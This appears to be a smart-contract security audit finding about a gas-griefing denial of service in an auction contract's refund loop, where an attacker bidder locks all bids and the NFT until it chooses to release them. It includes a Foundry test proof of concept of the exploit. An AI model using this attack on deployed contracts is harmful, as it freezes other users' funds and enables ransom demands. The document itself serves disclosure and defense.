 ```
At line 116 contract makes a call to the bidder's address with a refund of ether value. The result of this call is not required to be successful, so this looks safe at first sight since if the bidder contract simply reverts this - loop will continue its execution. However, the bidder contract could spend 63/64 gas of the current transaction. This would lead to a revert in the next calls inside the refunding loop.

Increasing the TX gas limit up to the max gas limit (block gas limit) would not prevent an exploit since an attacker could place few bids causing spending more than 63/64 of TX gas.
### Impact
Any bidder could cause permanent DOS on the auctionDemo#claimAuction function blocking all bids and NFT token inside the auction contract. An attacker could turn off DOS, releasing hostage assets at any time, and require redemption for this.
### Proof of Concept
Next foundry test could show an exploit scenario:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import "./Base.t.sol";
import "forge-std/Test.sol";

contract DosOnRefund is Base, Test {
    Attacker attacker;
    address user;

    function setUp() public {
        attacker = new Attacker();
        user = makeAddr("user");
        _deploy();
        skip(1 days);
        _initAuction();
    }

    function test_exploit() public payable {
        vm.deal(address(attacker), 1 wei);
        vm.prank(address(attacker));
        auction.participateToAuction{value: 1 wei}(tokenId);

        vm.deal(address(attacker), 2 wei);
        vm.prank(address(attacker));
        auction.participateToAuction{value: 2 wei}(tokenId);

        vm.deal(user, 3 ether);
        vm.prank(user);
        auction.participateToAuction{value: 3 ether}(tokenId);
        
        uint256 endTime = nextGenMinterContract.getAuctionEndTime(tokenId);
        vm.warp(endTime);
        // Tx reverts since too much gas spent inside refunds calls on the attacker contract
        vm.expectRevert();
        auction.claimAuction(tokenId);
        // Attacker could release hostage assets at any time
        attacker.allowClaim();
        auction.claimAuction(tokenId);
    }
}
